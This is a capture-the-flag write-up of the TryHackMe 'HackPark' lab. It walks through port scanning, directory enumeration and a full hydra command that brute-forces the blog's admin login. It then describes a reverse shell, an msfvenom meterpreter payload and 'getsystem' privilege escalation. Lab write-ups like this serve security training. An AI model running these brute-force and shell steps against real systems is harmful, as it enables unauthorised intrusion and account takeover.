


# HackPark

A write-up on [a hacking challenge](https://tryhackme.com/room/hackpark)

This write-up shows how I exploited the system to gain root access, but doesn't show answers to the TryHackMe questions.

## recon

### nmap

```
┌──(root㉿kali)-[~]
└─# nmap -A 10.10.251.125
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-08 17:36 UTC
Nmap scan report for ip-10-10-251-125.eu-west-1.compute.internal (10.10.251.125)
Host is up (0.00033s latency).
Not shown: 991 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bf595be6e857b2408a3516740ac44b08 (RSA)
|   256 010e8cbd26d73867cab97412a82a2995 (ECDSA)
|_  256 9eca096ced011cc61f8c3a297ec00e83 (ED25519)
80/tcp   open  http          WebSockify Python/3.6.9
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 405 Method Not Allowed
|     Server: WebSockify Python/3.6.9
|     Date: Tue, 08 Aug 2023 17:36:30 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 472
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 405</p>
|     <p>Message: Method Not Allowed.</p>
|     <p>Error code explanation: 405 - Specified method is invalid for this resource.</p>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 501 Unsupported method ('OPTIONS')
|     Server: WebSockify Python/3.6.9
|     Date: Tue, 08 Aug 2023 17:36:30 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 500
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 501</p>
|     <p>Message: Unsupported method ('OPTIONS').</p>
|     <p>Error code explanation: HTTPStatus.NOT_IMPLEMENTED - Server does not support this operation.</p>
|     </body>
|_    </html>
|_http-title: Error response
|_http-server-header: WebSockify Python/3.6.9
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
389/tcp  open  ldap          OpenLDAP 2.2.X - 2.3.X
3389/tcp open  ms-wbt-server xrdp
5901/tcp open  vnc           VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|     VeNCrypt (19)
|     VNC Authentication (2)
|   VeNCrypt auth subtypes: 
|     VNC auth, Anonymous TLS (258)
|_    Unknown security type (2)
6001/tcp open  X11           (access denied)
7777/tcp open  cbt?
| fingerprint-strings: 
|   Arucer, RPCCheck, RTSPRequest, Socks5, X11Probe: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 200 OK
|     server: ecstatic-3.3.2
|     cache-control: max-age=3600
|     last-modified: Sat, 13 Jun 2020 22:12:23 GMT
|     etag: W/"1298912-67351-2020-06-13T22:12:23.000Z"
|     content-length: 67351
|     content-type: text/html; charset=UTF-8
|     Date: Tue, 08 Aug 2023 17:36:38 GMT
|     Connection: close
|     <!--
|     CyberChef - The Cyber Swiss Army Knife
|     @copyright Crown Copyright 2016
|     @license Apache-2.0
|     Copyright 2016 Crown Copyright
|     Licensed under the Apache License, Version 2.0 (the "License");
|     this file except in compliance with the License.
|     obtain a copy of the License at
|     http://www.apache.org/licenses/LICENSE-2.0
|     Unless required by applicable law or agreed to in writing, software
|     distributed under the License is distributed on an "AS IS" BASIS,
|     WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
|   HTTPOptions: 
|     HTTP/1.1 405 Method Not Allowed
|     server: ecstatic-3.3.2
|     Date: Tue, 08 Aug 2023 17:36:38 GMT
|_    Connection: close
7778/tcp open  interwise?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Connection: close
|     Content-Type: text/html
|     <h1>Not Found</h1>The requested URL /nice%20ports%2C/Tri%6Eity.txt%2ebak was not found on this server.
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Connection: close
|     ETag: "149803-69b4-62da74b7"
|     Last-Modified: Fri, 22 Jul 2022 09:58:15 GMT
|     Date: Tue, 08 Aug 2023 17:36:38 GMT
|     Content-Type: text/html
|     Content-Length: 27060
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <title>Online - Reverse Shell Generator</title>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
|     <link rel="icon" href="favicon.ico" type="image/ico" sizes="16x16">
|     <link href="assets/bootstrap.min.css" rel="stylesheet">
|     <script src="assets/jquery-3.5.1.slim.min.js"></script>
|     <script src="assets/popper-1.16.1.min.js"></script>
|     <script src="assets/bootstrap-4.5.2.min.js"></script>
|     <script src="assets/axios.min.js"></script>
|     <link rel="stylesheet" href="css/dark-mode.css">
|     <link rel="stylesheet" href="css/light-mode.css">
|     <link rel="stylesheet" hr
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.0 400 Bad Request
|     Connection: Keep-Alive
|     Keep-Alive: timeout=20
|     Content-Type: text/html
|     <h1>Bad Request</h1>
|   Help: 
|     HTTP/0.9 400 Bad Request
|     Connection: Keep-Alive
|     Keep-Alive: timeout=20
|     Content-Type: text/html
|_    <h1>Bad Request</h1>
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.93%I=7%D=8/8%Time=64D27D1F%P=x86_64-pc-linux-gnu%r(GetRe
SF:quest,290,"HTTP/1\.1\x20405\x20Method\x20Not\x20Allowed\r\nServer:\x20W
SF:ebSockify\x20Python/3\.6\.9\r\nDate:\x20Tue,\x2008\x20Aug\x202023\x2017
SF::36:30\x20GMT\r\nConnection:\x20close\r\nContent-Type:\x20text/html;cha
SF:rset=utf-8\r\nContent-Length:\x20472\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC
SF:\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20\
SF:x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Conten
SF:t-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\
SF:x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20res
SF:ponse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20405</p
SF:>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Method\x20Not\x20Allo
SF:wed\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20explanat
SF:ion:\x20405\x20-\x20Specified\x20method\x20is\x20invalid\x20for\x20this
SF:\x20resource\.</p>\n\x20\x20\x20\x20</body>\n</html>\n")%r(HTTPOptions,
SF:2B8,"HTTP/1\.1\x20501\x20Unsupported\x20method\x20\('OPTIONS'\)\r\nServ
SF:er:\x20WebSockify\x20Python/3\.6\.9\r\nDate:\x20Tue,\x2008\x20Aug\x2020
SF:23\x2017:36:30\x20GMT\r\nConnection:\x20close\r\nContent-Type:\x20text/
SF:html;charset=utf-8\r\nContent-Length:\x20500\r\n\r\n<!DOCTYPE\x20HTML\x
SF:20PUBLIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\
SF:x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=
SF:\"Content-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</
SF:head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Erro
SF:r\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x
SF:20501</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Unsupported\x
SF:20method\x20\('OPTIONS'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Err
SF:or\x20code\x20explanation:\x20HTTPStatus\.NOT_IMPLEMENTED\x20-\x20Serve
SF:r\x20does\x20not\x20support\x20this\x20operation\.</p>\n\x20\x20\x20\x2
SF:0</body>\n</html>\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port7777-TCP:V=7.93%I=7%D=8/8%Time=64D27D22%P=x86_64-pc-linux-gnu%r(X11
SF:Probe,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\
SF:n\r\n")%r(Socks5,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\
SF:x20close\r\n\r\n")%r(Arucer,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nC
SF:onnection:\x20close\r\n\r\n")%r(GetRequest,3890,"HTTP/1\.1\x20200\x20OK
SF:\r\nserver:\x20ecstatic-3\.3\.2\r\ncache-control:\x20max-age=3600\r\nla
SF:st-modified:\x20Sat,\x2013\x20Jun\x202020\x2022:12:23\x20GMT\r\netag:\x
SF:20W/\"1298912-67351-2020-06-13T22:12:23\.000Z\"\r\ncontent-length:\x206
SF:7351\r\ncontent-type:\x20text/html;\x20charset=UTF-8\r\nDate:\x20Tue,\x
SF:2008\x20Aug\x202023\x2017:36:38\x20GMT\r\nConnection:\x20close\r\n\r\n<
SF:!--\n\x20\x20\x20\x20CyberChef\x20-\x20The\x20Cyber\x20Swiss\x20Army\x2
SF:0Knife\n\n\x20\x20\x20\x20@copyright\x20Crown\x20Copyright\x202016\n\x2
SF:0\x20\x20\x20@license\x20Apache-2\.0\n\n\x20\x20\x20\x20\x20\x20Copyrig
SF:ht\x202016\x20Crown\x20Copyright\n\n\x20\x20\x20\x20Licensed\x20under\x
SF:20the\x20Apache\x20License,\x20Version\x202\.0\x20\(the\x20\"License\"\
SF:);\n\x20\x20\x20\x20you\x20may\x20not\x20use\x20this\x20file\x20except\
SF:x20in\x20compliance\x20with\x20the\x20License\.\n\x20\x20\x20\x20You\x2
SF:0may\x20obtain\x20a\x20copy\x20of\x20the\x20License\x20at\n\n\x20\x20\x
SF:20\x20\x20\x20\x20\x20http://www\.apache\.org/licenses/LICENSE-2\.0\n\n
SF:\x20\x20\x20\x20Unless\x20required\x20by\x20applicable\x20law\x20or\x20
SF:agreed\x20to\x20in\x20writing,\x20software\n\x20\x20\x20\x20distributed
SF:\x20under\x20the\x20License\x20is\x20distributed\x20on\x20an\x20\"AS\x2
SF:0IS\"\x20BASIS,\n\x20\x20\x20\x20WITHOUT\x20WARRANTIES\x20OR\x20CONDITI
SF:ONS\x20OF\x20ANY\x20KIND,\x20either\x20express\x20or\x20implied\.\n\x20
SF:\x20\x20\x20See\x20the\x20")%r(HTTPOptions,73,"HTTP/1\.1\x20405\x20Meth
SF:od\x20Not\x20Allowed\r\nserver:\x20ecstatic-3\.3\.2\r\nDate:\x20Tue,\x2
SF:008\x20Aug\x202023\x2017:36:38\x20GMT\r\nConnection:\x20close\r\n\r\n")
SF:%r(RTSPRequest,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x2
SF:0close\r\n\r\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nC
SF:onnection:\x20close\r\n\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port7778-TCP:V=7.93%I=7%D=8/8%Time=64D27D27%P=x86_64-pc-linux-gnu%r(Get
SF:Request,6A7B,"HTTP/1\.0\x20200\x20OK\r\nConnection:\x20close\r\nETag:\x
SF:20\"149803-69b4-62da74b7\"\r\nLast-Modified:\x20Fri,\x2022\x20Jul\x2020
SF:22\x2009:58:15\x20GMT\r\nDate:\x20Tue,\x2008\x20Aug\x202023\x2017:36:38
SF:\x20GMT\r\nContent-Type:\x20text/html\r\nContent-Length:\x2027060\r\n\r
SF:\n<!doctype\x20html>\n<html\x20lang=\"en\">\n\n<head>\n\x20\x20\x20\x20
SF:<title>Online\x20-\x20Reverse\x20Shell\x20Generator</title>\n\x20\x20\x
SF:20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20<meta\x20name=\"view
SF:port\"\x20content=\"width=device-width,\x20initial-scale=1,\x20shrink-t
SF:o-fit=no\">\n\x20\x20\x20\x20<link\x20rel=\"icon\"\x20href=\"favicon\.i
SF:co\"\x20type=\"image/ico\"\x20sizes=\"16x16\">\n\x20\x20\x20\x20<link\x
SF:20href=\"assets/bootstrap\.min\.css\"\x20rel=\"stylesheet\">\n\x20\x20\
SF:x20\x20<script\x20src=\"assets/jquery-3\.5\.1\.slim\.min\.js\"></script
SF:>\n\x20\x20\x20\x20<script\x20src=\"assets/popper-1\.16\.1\.min\.js\"><
SF:/script>\n\x20\x20\x20\x20<script\x20src=\"assets/bootstrap-4\.5\.2\.mi
SF:n\.js\"></script>\n\x20\x20\x20\x20<script\x20src=\"assets/axios\.min\.
SF:js\"></script>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"c
SF:ss/dark-mode\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20hr
SF:ef=\"css/light-mode\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\
SF:"\x20hr")%r(HTTPOptions,79,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nConne
SF:ction:\x20Keep-Alive\r\nKeep-Alive:\x20timeout=20\r\nContent-Type:\x20t
SF:ext/html\r\n\r\n<h1>Bad\x20Request</h1>")%r(RTSPRequest,79,"HTTP/1\.0\x
SF:20400\x20Bad\x20Request\r\nConnection:\x20Keep-Alive\r\nKeep-Alive:\x20
SF:timeout=20\r\nContent-Type:\x20text/html\r\n\r\n<h1>Bad\x20Request</h1>
SF:")%r(Help,79,"HTTP/0\.9\x20400\x20Bad\x20Request\r\nConnection:\x20Keep
SF:-Alive\r\nKeep-Alive:\x20timeout=20\r\nContent-Type:\x20text/html\r\n\r
SF:\n<h1>Bad\x20Request</h1>")%r(FourOhFourRequest,AC,"HTTP/1\.0\x20404\x2
SF:0Not\x20Found\r\nConnection:\x20close\r\nContent-Type:\x20text/html\r\n
SF:\r\n<h1>Not\x20Found</h1>The\x20requested\x20URL\x20/nice%20ports%2C/Tr
SF:i%6Eity\.txt%2ebak\x20was\x20not\x20found\x20on\x20this\x20server\.");
MAC Address: 02:67:3A:EE:F9:7D (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=8/8%OT=22%CT=1%CU=37352%PV=Y%DS=1%DC=D%G=Y%M=02673A%TM
OS:=64D27DB4%P=x86_64-pc-linux-gnu)SEQ(SP=FB%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%T
OS:S=A)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7
OS:%O5=M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B
OS:3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=4
OS:0%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40
OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y
OS:%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.33 ms ip-10-10-251-125.eu-west-1.compute.internal (10.10.251.125)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 155.13 seconds
```

### looking at the website


There is not much to see here, except for a spooky clown.


We can reverse image search the clown if we want to find his name (this is a tryhackme question).

### gobuster

My goal is to root the system though so I will run gobuster to search for interesting directories on the website.

```
┌──(root㉿kali)-[~]
└─# gobuster dir -u 10.10.251.135 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.251.135
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2023/08/08 17:39:19 Starting gobuster in directory enumeration mode
===============================================================
/account              (Status: 301) [Size: 152] [--> http://10.10.251.135/account/]
/admin                (Status: 302) [Size: 173] [--> http://10.10.251.135/Account/login.aspx?ReturnURL=/admin]
/Admin                (Status: 302) [Size: 173] [--> http://10.10.251.135/Account/login.aspx?ReturnURL=/Admin]
/ADMIN                (Status: 302) [Size: 173] [--> http://10.10.251.135/Account/login.aspx?ReturnURL=/ADMIN]
/archives             (Status: 200) [Size: 8326]
/Archive              (Status: 200) [Size: 8325]
/archive              (Status: 200) [Size: 8325]
/aspnet_client        (Status: 301) [Size: 158] [--> http://10.10.251.135/aspnet_client/]
/aux                  (Status: 500) [Size: 1763]
/Blog                 (Status: 500) [Size: 1208]
/blog                 (Status: 500) [Size: 1208]
/com2                 (Status: 500) [Size: 1763]
/com1                 (Status: 500) [Size: 1763]
/com3                 (Status: 500) [Size: 1763]
/contact              (Status: 200) [Size: 9935]
/contact_bean         (Status: 200) [Size: 9940]
/contact_us           (Status: 200) [Size: 9938]
/Contact              (Status: 200) [Size: 9935]
/contactinfo          (Status: 200) [Size: 9939]
/contact-form         (Status: 200) [Size: 9940]
/contacts             (Status: 200) [Size: 9936]
/contacto             (Status: 200) [Size: 9936]
/contactus            (Status: 200) [Size: 9937]
/contact-us           (Status: 200) [Size: 9938]
/ContactUs            (Status: 200) [Size: 9937]
/content              (Status: 301) [Size: 152] [--> http://10.10.251.135/content/]
/Content              (Status: 301) [Size: 152] [--> http://10.10.251.135/Content/]
/con                  (Status: 500) [Size: 1763]
/custom               (Status: 301) [Size: 151] [--> http://10.10.251.135/custom/]
/default              (Status: 500) [Size: 1763]
/default_icon         (Status: 500) [Size: 1763]
/Default              (Status: 500) [Size: 1763]
/default_pages        (Status: 500) [Size: 1763]
/default_logo         (Status: 500) [Size: 1763]
/default_image        (Status: 500) [Size: 1763]
/defaults             (Status: 500) [Size: 1763]
/default_page         (Status: 500) [Size: 1763]
/fonts                (Status: 301) [Size: 150] [--> http://10.10.251.135/fonts/]
/lpt2                 (Status: 500) [Size: 1763]
/lpt1                 (Status: 500) [Size: 1763]
/nul                  (Status: 500) [Size: 1763]
/prn                  (Status: 500) [Size: 1763]
/robots.txt           (Status: 200) [Size: 303]
/scripts              (Status: 301) [Size: 152] [--> http://10.10.251.135/scripts/]
/Scripts              (Status: 301) [Size: 152] [--> http://10.10.251.135/Scripts/]
/search               (Status: 200) [Size: 8407]
/Search               (Status: 200) [Size: 8407]
/search_results       (Status: 200) [Size: 8415]
/search_result        (Status: 200) [Size: 8414]
/search-results       (Status: 200) [Size: 8415]
/searchresults        (Status: 200) [Size: 8414]
/searchurl            (Status: 200) [Size: 8410]
/searchnx             (Status: 200) [Size: 8409]
/setup                (Status: 302) [Size: 175] [--> http://10.10.251.135/Account/login.aspx?ReturnUrl=%2fsetup]
===============================================================
2023/08/08 17:39:21 Finished
===============================================================
```

`/admin` sticks out. Visiting it, we see:


I will brute force this, but first I need to get information about what data is being sent from me to the website.

### burpsuite

Opening up burpsuite proxy, I capture a login request with the credentials test:test.


### hydra

Hydra is the brute force tool I will use. Hydra is very picky with syntax, so a slight mistake in the format can cause us to waste a lot of time. You can read more about common mistakes [here](https://security.stackexchange.com/questions/37020/why-does-hydra-return-16-valid-passwords-when-none-are-valid).

Also note that I used the username `admin`. This is partially because it is very common, and partially because tryhackme said to use admin...

```
┌──(root㉿kali)-[~]
└─# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.251.135 http-post-form "/Account/login.aspx:__VIEWSTATE=IeuTmwLiug5jJbcZZxrjqGp8ysx00ptXXVByWb09lcn6RmXzUt9yGcUg3zPqSYi2ItJX1eOyTd9qeArKhOJtWmiI7VhRNlhur4p0wS1Rs0EMGw1UdCxH7eOTaW0iuBMO%2BRlUEO6q2k4rWBkYao%2F0HVxG5uGUzdXOi81iSgG3gsPzzwx9trs8%2FaK42ZI0t%2B4aB91I5VsHqlEj%2Fl5PWAyoMFuEbmyt952F4pjLSbDB5S533r6YX8Y7cv214iZDnYcYh4cgJ%2F8m4IZezv5NWOdCrbksjjlRMjEnnoZu8b%2BhMiYPJ0W8vV4lELqQnkmCdEhAyqwIsq74zV3bPUnkUzUVDR2G3XuBnW6SlpKJdRlb%2BkwMYh61&__EVENTVALIDATION=Ki7rO1S5x%2F9Q94y1kP4LPPxSZQx%2BkH8BTRtBXGUsfjYlc8LmpPGyXMZLufY60V8hm3%2FV3gjtdSnEkIfdIlUMG8xNiqYsbuxq57Z8ICOck%2Bx3AT9fciAHdVL%2FohDOOru%2FPUb921msOO77KF6vZt%2Fi8ws3fbFy5kcGO%2FfsEYJfQYw%2FdWFy&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

We get the password!


## compromise the machine

After using our password we can log into the admin pannel and get information about the services running.


And we search for an exploit.


https://www.exploit-db.com/exploits/46353

 

We are given details on how the exploit works and how to use it.

First, I will set the callback IP address to my IP address.


Then open a netcat listener on the port the exploit will be connecting to.


Click on the blog post.


Go to file manager


Rename the exploit so it will be read by the website in a certain way.


Upload the exploit.


Go to the following URL:


Check our netcat and see we have access to the machine!


## privilege escalation with metasploit

### getting a meterpreter shell

Meterpreter shells are very powerful and can allow us to escalate our privileges easily and quickly. My next goal will be to open a meterpreter shell.

First I will need to generate a shell using `msfvenom`.


Then I will open a session handler in metasploit, setting the options as follows:

Also don't forget to use the command `run` before our meterpreter shell is executed on the windows machine.

Now I need to get my shell onto the windows machine. Start by hosting a python server.


On the windows machine, download the shell and execute it.

Note that I download the shell into `C:\Windows\Temp` becuase we have write access in this directory.

Now in our metasploit handeler we should see a meterpreter session open.


### system information
I poked around for some system information.

 

```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User              Path
 ---   ----  ----                  ----  -------  ----              ----
 0     0     [System Process]
 4     0     System
 348   672   svchost.exe
 372   4     smss.exe
 484   672   svchost.exe
 524   516   csrss.exe
 576   568   csrss.exe
 604   516   wininit.exe
 612   568   winlogon.exe
 672   604   services.exe
 680   604   lsass.exe
 744   672   svchost.exe
 784   672   msdtc.exe
 788   672   svchost.exe
 872   612   dwm.exe
 880   672   svchost.exe
 912   672   svchost.exe
 964   1016  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 968   672   svchost.exe
 1016  1388  w3wp.exe              x64   0        IIS APPPOOL\Blog  C:\Windows\System32\inetsrv\w3wp.exe
 1136  672   spoolsv.exe
 1176  672   amazon-ssm-agent.exe
 1240  672   svchost.exe
 1276  672   LiteAgent.exe
 1360  672   svchost.exe
 1388  672   svchost.exe
 1420  672   WService.exe
 1548  1420  WScheduler.exe
 1564  3060  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 1648  672   Ec2Config.exe
 1656  964   shell.exe             x86   0        IIS APPPOOL\Blog  c:\Windows\Temp\shell.exe
 1720  3060  WScheduler.exe
 1784  744   WmiPrvSE.exe
 2000  672   svchost.exe
 2392  3060  powershell.exe        x64   0        IIS APPPOOL\Blog  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 2396  2992  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 2504  912   taskhostex.exe
 2588  2580  explorer.exe
 2604  2992  powershell.exe        x64   0        IIS APPPOOL\Blog  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 2616  964   conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 2992  1016  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 3008  2564  ServerManager.exe
 3060  1016  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe

```

### getting system access

`meterpreter > getsystem`

This gives us system level control, so here getting the flags is trivial (find them in user desktop folders).

